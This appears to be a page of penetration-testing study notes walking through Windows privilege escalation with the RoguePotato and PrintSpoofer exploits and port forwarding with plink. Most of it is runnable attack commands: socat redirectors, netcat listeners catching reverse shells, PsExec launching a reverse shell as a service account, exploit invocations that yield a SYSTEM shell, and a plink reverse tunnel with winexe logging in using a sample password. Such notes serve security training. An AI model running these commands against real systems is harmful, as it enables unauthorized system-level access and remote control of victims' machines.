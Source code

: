 ### RoguePotato
* Latest of the "Potato" exploits
[GitHub](https://github.com/antonioCoco/RoguePotato)
[Blog](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)
[Compiled Exploit](https://github.com/antonioCoco/RoguePotato/releases/tag/1.0)

1. In the example, you will need 3 Kali terminal windows.
2. In the first one you will need to run a socat redirector back to the windows box
`sudo socat tcp-listen:135,reuseaddr,fork tcp:192.168.X.X:9999`
3. Then setup nc listener to catch shell from service account running with the *SeImpersonatePrivilege* privilege
`sudo nc -nlvp 53`
4. Over on the windows, start an elevated command prompt using the admin windows credentials
Note: this is only done to simulate getting a shell. In a real engagement you would get a shell a different way then discover the user has the *SeImpersonatePrivilege* or *SeAssignPrimaryToken* privileges.
5. We will use PsExec to run our reverse shell as the local service account
`.\PsExec64.exe -accepteula -i -u "nt authority\local service" reverse.exe`
6. In the third window will run nc to catch the system level shell
`sudo nc -nlvp 53`
7. In the local service shell we will run RoguePotato
`.\RoguePotato.exe -r 192.168.X.X -l 9999 -e C:\path\to\reverseshell.exe`
Note: -r is kali ip address as its redirector and to listen on port 9999. This is for the socat redirector we set up earlier

### PrintSpoofer

* PrintSpoofer is another exploit that is currently unpatched that targets the print spooler service
[GitHub](https://github.com/itm4n/PrintSpoofer)
[Blog](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
* Doesn't require any port forwarding
1. Once again we need to catch a shell (simulate) for a service account with *SeImpersonatePrivilege* or *SeAssignPrimaryToken* privileges. In one window start a nc listener
2. Once again start an elevated command prompt to simulate spawning a shell with a service account.
3. PrintSpoofer.exe requires the Visual C++ redistributable is installed
4. You will need to transfer and run vc_redist.x64.exe 
5. Once you get a shell with a service account with the above privileges. You will run PrintSpoofer from this service shell:
`.\PrintSpoofer.exe -i -c C:\path\to\revereshell.exe`

## Port Forwarding

* Sometimes it is easier to ru nexploit code on Kali, but the vulnerable program is listening on an internal port.
* In this case we need to forward a port on Kali to the internal port on windows
* We can do this using a program called plink.exe (from the makers of putty)
1. If the firewall is blocking port 445 which the winexe command uses to connect we may need to use port forwarding
2. We must permit root login to ssh on our kali box (if we are using a root user on kali). We can do this by making sure that the /etc/ssh/sshd_config file has the `PermitRootLogin yes` uncommented.
3. If it isn't uncommented you will have to restart ssh `service ssh restart`
4. Next we run plink.exe `.\plink.exe root@192.168.X.X -R 445:127.0.0.1:445`
Note: root@192.168.x.x is the user and ip of the kali box, 445 is the port to forward on kali, while 127.0.0.1:445 is the local ip of the windows box and the port to forward locally.
5. Now we can modify the winexe on our kali box to point to local host `winexe -U admin%password123 //127.0.0.1 cmd.exe`
